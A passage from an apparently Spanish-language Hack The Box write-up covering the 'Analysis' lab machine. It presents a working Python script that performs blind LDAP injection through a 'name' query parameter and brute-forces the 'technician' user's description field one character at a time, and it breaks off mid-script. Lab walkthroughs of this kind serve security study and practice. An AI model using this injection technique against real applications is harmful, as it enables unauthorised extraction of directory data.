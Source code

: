 Comprobamos que hemos encontrado que el usuario "technician" dispone de descripción, una descripción que empiza por "9", un tanto peculiar para ser una descripción de un usuario LDAP.

```bash
python3 enum_users_description_ldap_injection.py
```

<figure><img src="../../../.gitbook/assets/1636_vmware_QcnQx8ZcT9.png" alt=""><figcaption></figcaption></figure>

Como ya sabemos que el usuario "technician" dispone de descripción. Realizaremos un ataque de fuerza bruta para enumerar el contenido de la descripción a través del script de Pyton.

```python
#!/usr/bin/env python3

import requests
import re
import signal
import pdb
import time
import sys
import string

from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = 'http://internal.analysis.htb/users/list.php?name='
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits + '.*&$€?!¿¡%@#'

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    time.sleep(2)

    p2 = log.progress("Description")

    description = ""

    for position in range(30):
        for character in characters:
            try:
                p1.status(main_url + f"technician)(description={description}{character}*")
                r = requests.get(main_url + f"technician)(description={description}{character}*")
                username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

                if "technician" in username:
                    description += character
                    p2.status(character)
                    break
            except:
                description += character
```